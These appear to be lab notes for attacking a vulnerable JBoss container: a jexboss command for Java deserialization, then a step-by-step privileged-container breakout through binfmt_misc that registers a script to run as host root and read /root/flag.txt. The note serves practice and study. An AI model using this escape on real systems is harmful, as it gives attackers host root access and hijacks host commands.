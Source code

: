 # jboss + binfmt_misc

- Vulapp
    - container
        - https://vulapps.evalbug.com/j_jboss_1/
        - start command: docker run --rm -d -p 8080:8080 --privileged --name jboss medicean/vulapps:j_jboss_1
    - hack method
        - java 反序列化
            - 我不會寫payload
            - 用工具 https://github.com/joaomatosf/jexboss
            - Use command: python3 jexboss.py -D --jboss -host http://127.0.0.1:8080

-Breakout Privileged
    - all
    - actually CAP_ADMIN

- Breakout payload
    - mount binfmt_misc -t binfmt_misc /proc/sys/fs/binfmt_misc
    - mount | grep upperdir 
    - (change the dir in later commands "/var/lib/......../tmp")
    - cd tmp
    - echo '#!/bin/bash' > test.sh
    - echo '' >> test.sh
    - echo 'cat /root/flag.txt > /var/lib/docker/overlay2/ac43a4775e3f5db566b90edff240df6a2e976b2c7a85359bb43b89946713f48a/diff/tmp/flag.txt' >> test.sh
    - chmod +x test.sh
    - echo ':test:M:208:\x28\x34::/var/lib/docker/overlay2/ac43a4775e3f5db566b90edff240df6a2e976b2c7a85359bb43b89946713f48a/diff/tmp/test.sh:' > /proc/sys/fs/binfmt_misc/register
    - (change to host root and use ls command)
    - echo -1 > /proc/sys/fs/binfmt_misc/status
    - ls
    
- replace "ls" command of the kernel